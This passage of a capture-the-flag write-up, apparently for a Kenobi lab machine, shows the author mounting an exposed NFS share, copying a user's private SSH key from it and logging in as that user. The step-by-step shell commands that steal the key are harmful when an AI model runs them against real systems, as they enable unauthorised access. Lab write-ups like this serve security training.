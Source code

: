 > Answer: No answer needed

After copying the directory I mount it to my machine with:
```bash
root@ip-10-10-184-203:~/Downloads# mkdir /mnt/kenobiNFS
root@ip-10-10-184-203:~/Downloads# mount 10.10.48.208:/var /mnt/kenobiNFS
```

Once mounted running an ```ls -lsa /mnt/kenobiNFS``` command will output the contents of the directory.

![lsMount](task3_mount.png)

Now I know we have the ssh key so all I have to do is copy the value to my local folder.
```bash
cp /mnt/kenobiNFS/tmp/id_rsa .
```

Adding a period or decimal in place of the destination will copy the file to the current working directory. After copying the value I set the permissions to read and write.
```bash
sudo chmod 600 id_rsa
```

Once that is done all that's left to do is log in as Kenobi.
```bash
ssh -i id_rsa kenobi@10.10.48.208
```
